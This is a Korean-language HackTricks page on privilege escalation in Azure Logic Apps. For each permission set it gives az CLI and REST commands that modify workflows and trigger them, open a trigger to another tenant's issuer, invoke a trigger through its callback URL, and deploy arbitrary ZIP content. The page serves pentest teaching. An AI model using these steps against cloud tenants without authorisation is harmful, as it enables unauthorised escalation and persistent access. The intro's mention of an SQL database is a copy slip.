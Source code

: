 # Az - Logic Apps Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Logic Apps Privesc
SQL 데이터베이스에 대한 자세한 내용은 다음을 확인하세요:

{{#ref}}
../az-services/az-logic-apps.md
{{#endref}}

### (`Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.Logic/workflows/read`, `Microsoft.Logic/workflows/write` && `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`) && (`Microsoft.Logic/workflows/triggers/run/action`)

이 권한을 사용하면 Azure Logic Apps 워크플로를 생성하거나 업데이트할 수 있습니다. 워크플로는 다양한 시스템 및 서비스 간의 자동화된 프로세스와 통합을 정의합니다.
```bash
az logic workflow create \
--resource-group <resource_group_name> \
--name <workflow_name> \
--definition <workflow_definition_file.json> \
--location <location>

az logic workflow update \
--name my-new-workflow \
--resource-group logicappgroup \
--definition <workflow_definition_file.json>
```
그리고 변경한 후에는 다음과 같이 실행할 수 있습니다:
```bash
az rest \
--method post \
--uri "https://management.azure.com/subscriptions/{subscriptionId}/resourcegroups/{resourceGroupName}/providers/Microsoft.Logic/workflows/{logicAppName}/triggers/{triggerName}/run?api-version=2016-10-01" \
--body '{}' \
--headers "Content-Type=application/json"
```
추가적으로 `Microsoft.Logic/workflows/write`만으로도 권한 정책을 변경할 수 있으며, 예를 들어 다른 테넌트가 워크플로우를 트리거할 수 있는 권한을 부여할 수 있습니다:
```bash
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<resource-group-name>/providers/Microsoft.Logic/workflows/<workflow-name>?api-version=2016-10-01" \
--body '{
"location": "<region>",
"properties": {
"definition": {
"$schema": "https://schema.management.azure.com/providers/Microsoft.Logic/schemas/2016-06-01/workflowdefinition.json#",
"contentVersion": "1.0.0.0",
"parameters": {
"$connections": {
"defaultValue": {},
"type": "Object"
}
},
"triggers": {
"<trigger-name>": {
"type": "Request",
"kind": "Http"
}
},
"actions": {},
"outputs": {}
},
"accessControl": {
"triggers": {
"openAuthenticationPolicies": {
"policies": {
"<policy-name>": {
"type": "AAD",
"claims": [
{
"name": "iss",
"value": "<issuer-url>"
}
]
}
}
}
}
}
}
}'

```
### `Microsoft.Logic/workflows/triggers/listCallbackUrl/action`
트리거의 콜백 URL을 가져오고 실행할 수 있습니다.
```bash
az rest --method POST \
--uri "https://management.azure.com/subscriptions/<subscription_id>/resourceGroups/<resource_group>/providers/Microsoft.Logic/workflows/<workflow_name>/triggers/<trigger_name>/listCallbackUrl?api-version=2019-05-01"
```
이것은 `https://prod-28.centralus.logic.azure.com:443/workflows/....`와 같은 콜백 URL을 반환합니다. 이제 다음과 같이 실행할 수 있습니다:
```bash
curl --request POST \
--url "https://prod-28.centralus.logic.azure.com:443/workflows/<workflow_id>/triggers/<trigger_name>/paths/invoke?api-version=2019-05-01&sp=%2Ftriggers%2F<trigger_name>%2Frun&sv=1.0&sig=<signature>" \
--header 'Content-Type: application/json' \
--data '{"exampleKey": "exampleValue"}'
```
### (`Microsoft.Web/sites/read`, `Microsoft.Web/sites/basicPublishingCredentialsPolicies/read`, `Microsoft.Web/sites/write`, `Microsoft.Web/sites/config/list/action`) && (`Microsoft.Web/sites/start/action`)
이 권한을 사용하면 ZIP 파일 배포를 통해 Logic App 워크플로를 배포할 수 있습니다. 이러한 권한은 앱 세부정보 읽기, 게시 자격 증명 액세스, 변경 사항 작성 및 앱 구성 나열과 같은 작업을 가능하게 합니다. 시작 권한과 함께 원하는 콘텐츠로 새로운 Logic App을 업데이트하고 배포할 수 있습니다.
```bash
az logicapp deployment source config-zip \
--name <logic_app_name> \
--resource-group <resource_group_name> \
--src <path_to_zip_file>
```
{{#include ../../../banners/hacktricks-training.md}}
